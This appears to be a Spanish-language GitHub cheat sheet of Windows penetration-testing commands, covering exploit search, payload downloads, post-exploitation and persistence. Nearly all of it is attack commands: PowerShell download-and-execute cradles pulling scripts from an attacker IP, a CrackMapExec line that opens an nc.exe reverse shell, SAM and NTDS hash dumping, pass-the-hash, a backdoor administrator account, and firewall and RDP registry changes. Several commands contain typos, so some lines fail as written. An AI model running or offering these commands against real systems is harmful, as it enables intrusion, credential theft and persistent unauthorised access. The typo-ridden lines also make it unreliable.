 # WinPTCS
Windows Pentest Cheat Sheet -  This is a basic level pentest assorted commads and snippts

___________
# Basic Windows Pentesting

## Buscando Vulnerabilidades
### searchsploit
Buscando en la DDBB de vulneravilidades con searchsploit. Probar siglas y combinaciones de nombre de servicios
```bash
searchsploit update
searchsploit <ServiceName>
searchsploit -x <XploitPath>       #Examina el exploit
searchsplot -m <XploitPath>        #Crea una copia del sploit en el directorio actual
```

## Descargando Ficheros
Descargando un script que nos de una buena powershell (nishang por ejemplo), comprobamos si estamos en un proceso de 64 bits y consideramos migrar a un proceso de 64 bits
```bash
start /b powershell IEX(New-Object Net.WebClient).downloadString('http://<myIP>:<myPort>/ps.ps1") # start /b para que quede en segundo plano, pude quedar en un proceso de 32bits
[Environment]::Is64BitOperatingSystem
[Environment]::Is64BitProcess
C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://<myIP>:<myPort>/ps.ps1")
-- 
certutil.exe -f -urlcache -split http://<myIP>:<myPORT>/binary.exe nbinary.exe
powershell -c "(New-Object System.Net.WebCliente).donwnloadFile('http://<myIP>:<myPORT>/binary.exe', 'C:\Windows\Tasks\binary.exe')
powershell Invoke-WebRequest "http://<myIP>:<myPORT>/binary.exe" -OutFile "C:\Windows\Tasks\binary.exe"
```
### Descargando ficheros A traves de SAMBA
```bash
impacket-smbserver smbFolder $(pwd) -smb2support   #En mi maquina
```
Creamos un recurso compartido y copiamos
```posh
New-PSDrive -Name "SharedFolder" -PSProvider "FileSystem" -Root "\\<myIP>\smbFolder    #En PowerShell
dir SharedFolder:\
copy SharedFolder:\binary.exe C:\Windows\Tasks\binary.exe
copy localFile.txt \\<myIP>\smbFolder\localFile.txt
```
### Reconocimeinto y busqueda de exploits
Hacemos git clone a PowerSploit y dentro del modulo/carpeta Privesc
```bash
batgrep "function" PowerUp.ps1   #Ver funciones del script
echo "Invoke-AllChecks" >> PowerUp.ps1
```
Descargamos el script a la maquina para que se ejecute y esperamos la salida.
#### Weseng
Clonamos weseng (Windows Exploit Suggester) para buscarle vulnerabilidades a la salida de SystemInfo
```bash
python wes.py systemInfoOutput.txt
python wes.py systemInfoOutput.txt -i "Elevation of privilege"
```
#### Windows-Sploit-Suggester AonCyberLabs
Clonamos Windows-Exploit-Suggester de AonCyberLabs
```zsh
python windows-exploit-suggester.py --update   #Descarga un xlsx con registros
python windows-exploit-suggester.py --database <unafecha>.xlsx --systeminfo systemInfoOutput.txt
```
## Persistencia y PostExplotacion
Teniendo privilegios de root, creamos un usuario y lo incluimos en el grupo de administradores
```zsh
net user maopiccoto maopiccoto123! /add
net localgroup Administrators maopiccoto /add
```
### NetTweaks && Firewall
Abriendo puertos y autorizando in/out dataTraffic en el Firewall
```posh
netsh advfirewall add rule name="Samba Port" portocol=TCP dir=in localport=445 action=allow
netsh advfirewall add rule name="Samba Port" portocol=TCP dir=in localport=445 action=allow
netstat -nat
```
### CrackMapExec
La idea es que al conectarnos regrese el mensaje Pwn3d!
```bash
cme smb <remoteIP> -u '<userName>' -p '<passwd>'
```
Lo ponemos a ejecutar comandos
```bash
cme smb <remoteIP> -u '<userName>' -p '<passwd>' -x 'whoami'
cme smb <remoteIP> -u '<userName>' -p '<passwd>' -x '\\<myIPsmbShared>\smbFolder\nc.exe -e cmd <myIP> <myPORT>'
cme smb <remoteIP> -u '<userName>' -p '<passwd>' --sam   #dumpea hashes
cme smb <remoteIP> -u '<userName>' -p '<passwd>' --ntds vss  #dupea mas hashes
```
#### PASS the HASH
Entonces podriamos hacer passTHEhash
```bash
cme smb <remoteIP> -u 'Administrator' -H 'xxxxxxx:ffffffff'
```
#### pth-winexe
Sirve para obtener una consola haciendo passTHEhash. WORKGROUP=Dominio
```bash
pth-winexe -U WORKGROUP/Administrator%<hashNTLM> //<remoteIP> cmd.exe
```
#### Obteniendo Hashes manualmente [pwdump]
Los hashes NTLM se guardan en 2 archivos: SAM & SYSTEM. Los copiamos, no podemos leerlos directamente porque siempre estan siendo utilizados por el sistema.
```bash
reg save HKLM\SAM sam.backup
reg save HKLM\SYSTEM system.backup
```
En nuestra maquina utilizamos pwdump para revelar los hashes
```bash
pwdump SYSTEM SAM
```
### Impacket
Para saltar de un usuario privilegiado, en Administrators, a NT authority\system. Clonamos el repo y corremos install.py
```bash
psexec.py WORKGROUP/maopiccoto:maopiccoto123@<remoteIP> cmd.exe
```
Segun la respuesta del psexec tendremos que crear un recurso compartido
```posh
net share myFolder=C:\Widnows\Temp /GRANT:Administrators,FULL
cmd /c reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilerPolicy /t REG_DWORD /d 1 /f
```
### Habilitando el RDP
Primero creamos las reglas de firewall luego habilitamos el RDP en el registro
```posh
netsh advfirewall firewall add rule name="RDP Port" protocol=TCP dir=in localport=3389 action=allow
netsh advfirewall firewall add rule name="RDP Port" protocol=TCP dir=out localport=3389 action=allow

red add "HKEY_LOCAL_MAHCINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSconnections /t REG_DWORD /d 0 /f
```
Ya podriamos utilizar xfreerdp para conectarnos por remoto
```bash
xfreerdp /u:maopiccoto /d:WORKGROUP /p:maopiccoto123 /v:<remoteIP>
```
---
### Mapear recursos compartidos por SAMBA a nivel de red
```bash
smbmap -H <ipRemote> -u "null"
cmbclient -L <ipRemote> -N
```


